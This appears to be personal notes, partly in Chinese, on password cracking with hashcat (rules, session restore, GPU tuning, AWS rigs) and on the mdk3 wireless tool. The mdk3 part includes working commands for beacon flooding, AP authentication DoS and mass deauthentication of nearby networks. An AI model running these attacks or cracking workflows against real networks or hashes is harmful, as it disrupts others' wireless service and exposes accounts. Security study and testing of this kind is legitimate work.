        $ hashcat --stdout -r 123.rule -r abc.rule wordlist
        hashcat1a
        hashcat2a
        hashcat3a
        hashcat1b
        hashcat2b
        hashcat3b
        hashcat1c
        hashcat2c
        hashcat3c
Because the total number of generated rules is the product of all list, stacking multiple large lists can quickly exceed available memory. But a few well-chosen rules can be stacked to great effect.
#### Using existing rule files

        ls -l /usr/share/hashcat/rules/
        total 2412
        -rw-r--r-- 1 root root    284 Dec  4  2015 best64.rule
        -rw-r--r-- 1 root root    692 Dec  4  2015 combinator.rule
        -rw-r--r-- 1 root root 242503 Dec  4  2015 d3ad0ne.rule
        -rw-r--r-- 1 root root 973248 Dec  4  2015 dive.rule
        -rw-r--r-- 1 root root  92810 Dec  4  2015 generated.rule
        -rw-r--r-- 1 root root 324926 Dec  4  2015 Incisive-leetspeak.rule
        -rw-r--r-- 1 root root  42026 Dec  4  2015 InsidePro-HashManager.rule
        -rw-r--r-- 1 root root  22963 Dec  4  2015 InsidePro-PasswordsPro.rule
        -rw-r--r-- 1 root root    327 Dec  4  2015 leetspeak.rule
        -rw-r--r-- 1 root root  37939 Dec  4  2015 Ninja-leetspeak.rule
        -rw-r--r-- 1 root root   1536 Dec  4  2015 oscommerce.rule
        -rw-r--r-- 1 root root 331161 Dec  4  2015 rockyou-30000.rule
        -rw-r--r-- 1 root root   1774 Dec  4  2015 specific.rule
        -rw-r--r-- 1 root root  68087 Dec  4  2015 T0XlC-insert_00-99_1950-2050_toprules_0_F.rule
        -rw-r--r-- 1 root root   2508 Dec  4  2015 T0XlC-insert_space_and_special_0_F.rule
        -rw-r--r-- 1 root root  36039 Dec  4  2015 T0XlC-insert_top_100_passwords_1_G.rule
        -rw-r--r-- 1 root root  38904 Dec  4  2015 T0XlC.rule
        -rw-r--r-- 1 root root 116633 Dec  4  2015 T0XlCv1.rule
        -rw-r--r-- 1 root root     60 Dec  4  2015 toggles1.rule
        -rw-r--r-- 1 root root    690 Dec  4  2015 toggles2.rule
        -rw-r--r-- 1 root root   4330 Dec  4  2015 toggles3.rule
        -rw-r--r-- 1 root root  17980 Dec  4  2015 toggles4.rule
        -rw-r--r-- 1 root root  54016 Dec  4  2015 toggles5.rule

### ???How to process more than one hash files???
The new version of Hashcat is designed to run on GPUs an is designed to only process a single hash file so that's not quite practical though there are scenarios where you may want to actually only try to crack one password hash it is not a situation it is all that comment.
Currently, oclHashcat-plus does not support multiple WPA2 hashes in a single instance. One way to work around this is to have three separate instances. So basically:
1. Have three separate directories with oclHashcat-plus or Hashcat.
2. Launch the processes in parallel. Make sure that all of them have drastically lowered `-n` and `-u` values.
If you are using CPU Hashcat, do the same thing but adjust the `-n` parameter only.
This is  totally inefficient but should work.
### run Hashcat dynamically???
So here's the process I go through. I define a sequence of jobs I want to run. By jobs I really mean what kind of rules and attack types I want to perform. I then analyze the results both at the end of the run and during the run. I don't like to wait till the end of the run necessarily if the run's going to take a long time. So I don't want to run something for eight hours and find out it was going to crack zero password. So what I've done is I've created a bash script that check every 15 seconds to see how many passwords has been cracked at what frequency and whether that frequency over that increment of time overall is increasing, decreasing going down to zero. So I can continue a run or I can suspend it or terminate it based on how successful it is or I can resume it in a later time. So that allows me to eliminate or adjust jobs based on the results but where it gets even more dynamic is I can create new dictionaries either during a run or after a run based on the output of the other one. So the output what is looks like? The output is going to be a file that has a hash in it and on the same line it's going to have the plaintext password that was cracked. There's some other things you can have included it too, like the hash version of that really depends on that your needs are and then I rerun the jobs based on the new dictionaries I created and the new rules I determine will be beneficial. So a dictionary my just be the passwords that I've cracked. So I could if I cracked half a million passwords out of eHarmony I may add those to my initial dictionary file which can consist of dictionaries of English words, dictionaries of words from other languages. So other password leaks are really a good source of password dictionaries.
### Suspend and Resume a session
#### Description
The .restore file format is a custom format,specifically developed for hashcat. hashcat supports resuming cracking jobs for each and every hash type, attack mode, input type (even stdin) etc. It doesn't even matter why the job was stopped as long as you have a .restore file with all the information needed for hashcat to continue cracking (and the directories/dictionaries/masks/rules/hashes/hash files etc  used within the original cracking job). No matter if you had a power failure or you just stopped the cracking job because you wanted to sleep near your hardware, with `--restore` you should be able to resume the cracking job.
It's important to know that the .restore file will be updated whenever this line is the status screen changes:
`Restore.Point...:`
...and **not** whenever this line changes (hashcat needs to reach the next restore checkpoint):
Progress......:
The second important thing to note is that quitting hashcat via the **Checkpoint stop** feature, by hitting 'c', will wait until the restore file has been updated to quit, whereas forcing hashcat to quit by hitting 'q' will not. By using 'q' instead of 'c' you run the risk of losing progress due to the restore file having not been recently updated.
When pressing 'c', you will be prompted with "Check point enabled. Will quit at next restore-point update."
The .restore file will be automatically deleted whenever the full cracking job was finished (exhausted) or whenever every hash within the hash list was cracked.
To disable the restore support you can use `--restore-disable`. If you want to specify a different path to the restore file you can use `--restore-file-path`.???
#### Restore howto
Consider that you used this command lien to start a cracking job:
`hashcat -m 0 -a 3 --sessin session_name example0.hash masks/rockyou-7-2592000.hcmask`
and you hit 'c' (or 'q' for quit) while it was running ( or it was stopped/killed for some other reasons).
This command resumes the above cracking job:
`hashcat --session session_name --restore`
The `--restore` command does not need nor allow any further arguments except from `--session` (and `--restore` itself). You cannot simply ad or change some arguments when you restore the job. If you really insist to changes any arguments, you might be able to use some external tools (like analyze_hc_restore) at your own risk.
#### Saving the restore file
* Saving the restore file under a custom directory
    `hashcat64.exe -a 3 -m 2500  E:\cap\TP-LINK_54AA-01\TP-LINK_54AA-01.hccapx ?d?d?d?d?d?d?d?d --session test_session --restore-file-path E:\cap\test_session.restore`
    Without `--restore-file-path E:\cap\test_session.restore`, the .restore file will be saved under the current directory as <session_name>.restore.
* Restore the process
    `hashcat64.exe --session test_session --restore --restore_file-path E:\cap\test_session.restore`
    Without `--restore-file-path E:\cap\test_session.restore`, the restore process will search for <session_name>.restore file.
    The only parameters allowed when restoring a session are:
    * `--restore`(required): tell hashcat that it should restore a previous session.
    * `--session`(optional):specify the session name of the previous session that hashcat should restore
    Note: if you did use `--session` when starting the cracking job, you also need to use `--session` with the same session name to restore it.
    Further parameters and switches are currently not allowed, e.g. you can't simply add `-w 3` when restoring (i.e. `--restore -w 3`) because it will be ignored.
### Run Hashcat dynamically

### 关于GPU参数优化 [ 这次根本没用到 ]和自定义破解规则[比较复杂,但更智能灵活,可这也就意味着速度就..嘿嘿,你懂的]方面的东西,这里暂时就不提了,仅仅作为hash破解入门,这些差不多足以应对你日常的各种破解需求了
### 关于在实际破解中自己的一些建议,暂以大批量hash爆破为例[事先没有任何密码规律可循,只能盲测的那种情况]
* 首先,弱口令字典先走一遍再说
* 其次,跑掩码,把所有想跑的掩码全部事先放到.hcmask文件中,然后加载它自动跑,上面已有介绍
* 或者,如果只是针对单条hash,在上述方法都跑不出来的情况下,可以去仔细分析下目标的密码设置规律,再尝试组合,可能效率会高一点,但那也只是可能
* 最后,如果你自己真的有能力,可以想办法把它做成分布式快速hash破解产品[密码机],然后拿到市面上去卖,也是完全可行的,毕竟已经有很多成功的案例,只不过你可能更多应该考虑下怎么比别人做的效率更高,更易用,不然,很难有市场
### HashCat参数优化
HashCat本身考虑到系统资源的分配，默认参数下并没有最大化的来使用硬件资源。如果我们想要让破解速度最大化，就需要对一些参数进行配置。
#### for new versions
* `-w 1`: Watch movies or play games (even such that require high FPS count), lowest performance
* `-w 2`: Normal desktop operations or "economic" mode (like internet browsing, texteditor, etc), default setting
* `-w 3`: Headless systems or dedicated cracking systems, highest performance
#### 1.Workload tuning 负载调优。
该参数支持的值有1,8,40,80,160
`--gpu-accel 160`
可以让GPU发挥最大性能。
#### 2.Gpu loops 负载微调
该参数支持的值的范围是8-1024（有些算法只支持到1000）。
`--gpu-loops 1024`
可以让GPU发挥最大性能。
#### 3.Segment size 字典缓存大小
该参数是设置内存缓存的大小，作用是将字典放入内存缓存以加快字典破解速度，默认为32MB，可以根据自身内存情况进行设置，当然是越大越好XD。
`--segment-size 512`
可以提高大字典破解的速度。

### choose devices, device-types, and platforms
!!! hashcat --help | grep "device\|platform"
Please don't confuse OpenCL platforms (Intel OpenCL CPU driver, Intel GPU driver, nvidia OpenCL GPU driver, AMD OpenCL CPU driver, AMD OpenCL GPU drivers, pocl opencl drivers, mesa...) with oclHashcat's device types (selected by `-D`: CPU, GPU, FPGA, DSP, Co-Processor) or confuse it even the selection of the device (`-d`) from a list of OpenCL devices.
These are all different concepts and it clearly says that the output is a list of different OpenCL platforms (OpenCL Platform #...), while you specified a selection of "device types" on the command line.
If in doubt, it should be enough to jsut have a glance at the `--help` output: it even list and explains all the "device types" (the current output is):

        - [OpenCL Device Types]-

          # | Device Type
        ===+|=====================
        1   | CPU
        2   | GPU
        3   | FPGA, DSP, Co-Processor
The list of platforms won't (and probably can't easily) be exactly ordered by the device types...these are different concepts and, for instance, you could have many platforms of the same device type etc.
The only thing one could ask is "Why did oclHashcat's devs define opencl-device-type 1 as CPU devices, while most opencl drivers ordering of platform IDs start with all GPU devices?"...Well, also this might depend on your hardware and probably other factors (like which version of opencl drivers you've installed etc).
I would just recommend that we shouldn't care about this ordering of platforms too much, but remember that:
1. by selecting the opencl device types you choose between CPU, GPU, FPGA (multiple choices possible),
2. the list of platforms depend on the drivers installed (can even be multiple drivers for a single device, like AMD OpenCL CPU driver and native OpenCL Intel driver for the same OpenCL-compatible CPU) and hence the ICDs found on the system
3. and ultimately the user can select (from the "filtered" list) the device with the `--opencl-devices` (`-d`) command lien argument.

Command line|Example|Description
--|--|--
`-I`, `--opencl-info`|`-I`|Show information about detected OpenCL platforms/devices
`--opencl-platforms`|`--opencl-platforms=2`|OpenCL platforms to use, separated with commas
`-D`, `--opencl-device-types`|`-D 1`|OpenCL device-types to use, separated with commas
`-d`, `--opencl-devices`|`-d 1`|OpenCL devices to use, separated with commas

## mdk3 
### installation
* 首先获取源代码

            wget http://linux.gungoos.com/mdk3-v6.tar.gz
            tar xvzf mdk3-v6.tar.gz
            cd mdk3-v6
  如果遇到这种错误,试试直接用Firefox访问那个地址下载吧。
* 修改Makefile文件

            sudo vim Makefile
    将 “-lpthread” 替换成 “-pthread”。之后按ctrl + x -> Y (enter) -> enter
* 编译

        sudo make
    这里make之后会刷出很多warnings，但并不影响编译。
* 安装

        sudo make install
* 测试

        sudo mdk3
### use modes
#### Beacon Flood Mode
这个模式可以产生大量死亡SSID来充斥无线客户端的无线列表，从而扰乱无线使用者；我们甚至还可以自定义发送死亡SSID的BSSID和ESSID、加密方式（如wep/wpa2）等。

        mdk3 mon0 b
              -n <ssid>        #自定义ESSID
              -f <filename>            #读取ESSID列表文件
              -v <filename>           #自定义ESSID和BSSID对应列表文件
              -d         #自定义为Ad-Hoc模式
              -w         #自定义为wep模式
              -g           #54Mbit模式
              -t            # WPA TKIP encryption
              -a           #WPA AES encryption
              -m          #读取数据库的mac地址
               -c <chan>                   #自定义信道
               -s <pps>                #发包速率
        mdk3 --help b  #查看详细内容
##### Example 1
`sudo mdk3 mon0 b -f wordlist1.txt -a -c 6 -s 80`

./wordlist1.txt

        burpS
        WPSHAK
##### Example 2
固定FakeAP的MAC
`sudo mdk3 mon0 b -v wordlist2.txt -a -c 6 -s 80`

./wordlsit2.txt

        AA:BB:CC:DD:AA:EE burpSuite
        11:22:33:DD:AA:EE WPSHAK
##### 效果说明
PC可以容易看到 FakeAP，但是 Android 的 WLAN 扫描不容易看到，原因暂不明。
#### Authentication Dos Mode
##### 详细说明
这是一种验证请求攻击模式：在这个模式里，软件自动模拟随机产生的mac向目标AP发起大量验证请求，可以导致AP忙于处理过多的请求而停止对正常连接客户端的响应；这个模式常见的使用是在 reaver 穷据路由 PIN 码，当遇到AP被“pin死”时，可以用这个模式来直接让AP停止正常响应，迫使AP主人重启路由。

        mdk3 mon0 a
              -a <ap_mac>              #测试指定BSSID
              -m              #使用有效数据库中的客户端mac地址
              -c          #对应 -a ，不检查是否测试成功
              -i  <ap_mac>           #对指定BSSID进行智能攻击
              -s <pps>               #速率，默认50
##### Example 1
`sudo mdk33 mon0 a -a EC:88:8F:A1:A5:90 -s 200`
似乎无效
手机连接AP正常上网
#### Deauthentication/Disassociation Amok Mode
##### 详细说明
这个模式看名称就知道大概了：强制解除验证解除连接！在这个模式下，软件会向周围所有可见AP发起循环攻击……可以造成一定范围内的无线网络瘫痪（当然有白名单，黑名单模式），直到手动停止攻击。

        mdk3 mon0 d
              -w <filename>             #白名单mac地址列表文件
              -b <filename>              #黑名单mac地址列表文件
              -s <pps>                        #速率，这个模式下默认无限制
              -c [chan,chan,chan,...]                  #信道，可以多填，如 2,4,5,1
##### Example 1
`sudo mdk3 d -s 120 -c 1,6,11`
#### Basic probing and ESSID Bruteforce Mode
##### 详细介绍
基本探测AP信息和ESSID猜解模式

        mdk3 mon0 p
              -e <ssid>          #待检测的ssid
              -f <filename>          #检测AP设置为隐藏的ssid列表文件
              -t <bssid>               #用bssid检测AP的信息
              -s <pps>                #速率，默认300
              -b <character set>              #设置字符集
#### How to get prepare for hashcat
##### [Setting up p3.16xlarge for hashcat](https://medium.com/@iraklis/running-hashcat-v4-0-0-in-amazons-aws-new-p3-16xlarge-instance-e8fab4541e9b)
First of, you may need to request a limit increase so that you are allowed to launch the new p3.16xlarge instances. AWS was pretty responsive, it only took them 20 minutes or so.
Before we proceed a friendly heads up: I will not be replying to any angry emails coming from people who lost their job/spouse/sanity. Be careful with your internet clicks. If you forget to spin-down your p3.16xlarge instance for a month, you will be reminded with an AWS invoice of over $18k.
p3.16xlarge is available hey in US East (N. Virginia), US West (Oregon), EU West (Ireland) and Asia Pacific (Tokyo) regions.
Launch a default Ubuntu p3.16xlarge instance with the "Ubuntu Server 16.04 LTS (HVM), SSD Volume Type-ami-cd0f5cb6" ami.
You can try getting a spot request one, these are usually 50%-80% cheaper, depending on availability and demand.
###### On your first login, update everything and install the required packages:
`sudo apt update && sudo apt install -y buil-essential linux-headers-$(uname -r) p7zip-full linux-image-extra-virtual`
Then, `sudo vim /etc/modprobe.d/blacklist-nouveau.conf` and input the following:

        blacklist nouveau
        blacklist lbm-nouveau
        options nouveau modeset=0
        alias nouveau off
        alias lbm-nouveau off
After:

        echo options nouveau modeset=0 | sudo tee -a
        /etc/modprobe.d/nouveau-kms.conf
        sudo update-initramfs -u
        sudo reboot
###### Once the instance reboots (it should take 2-3 minutes), download the latest NVIDIA Tesla drivers (these worked for me) and hashcat:

        wget http://us.download.nvidia.com/tesla/384.81/NVIDIA-Linux-x86_64-384.81.run
        sudo /bin/bash NVIDIA-Linux-x86_64-384.81.run
        wget https://hashcat.net/files/hashcat-4.0.0.7z
        7za x hashcat-4.0.0.7z
###### You should be good to go. To verify that the drivers are working you can run `sudo nvidia-smi`

###### Full benchamrks

        cd ~/hashcat-4.0.0
        sudo ./hashcat64.bin -b
### Building my own cracking box
I could build my own cracking box and plenty of people have done that only run you a few thousand dollars. Roughly speaking to build a decent GPU based cracking box let's say it's going to cost you thousand dollars per box plus roughly five hundred dollars per GPU, really depends on what GPU you decide to purchase and there's different GPUs that crack passwords at different rates and it is not really what they're designed for cracking but they're designed for graphical intents purposes and it just so happens they work really well for cracking passwords.
So if I was building my own box as I mentioned it cost me a few thousand dollars I mean really depends like a through 8 GPUs in it and increase the cost by four thousand dollars but it's only on perform about eight times faster than a machine with on GPU in it. To do this though I need a beefy power supply. These types of machines suck up a lot of power so I need really good cooling. The CPU and RAM are not very important for these types of purposes so so if you're building machine there's no real reason to max it out with the highest and CPU with multiple cores and a tremendous amount of RAM. And you probably if you're going to build a machine would probably want to put more than one GPU in it but but you could always start off with one GPU and if you need it to you could add additional GPUs as long as you have the right slots for doing that. 
Nvidia Tesla cards in AWS EC2 instance are very very expensive GPU cards and unfortunately they're not optimized for doing a password cracking but they're designed for doing things like financial modeling and very high-end things that require floating-point mathematics that are not important for password cracking. So that's the only option they have available and so that's what I utilized. If you're building your own box you would want not to use those cards. I think they run probably around two or three thousand dollars a piece when Amazon launched a service a couple years ago that was substantially more expensive than that, but they're going to perform at a less effective rate than a five-hundred-dollar card you can buy commercially. So do not buy an nvidia tesla card for password cracking.
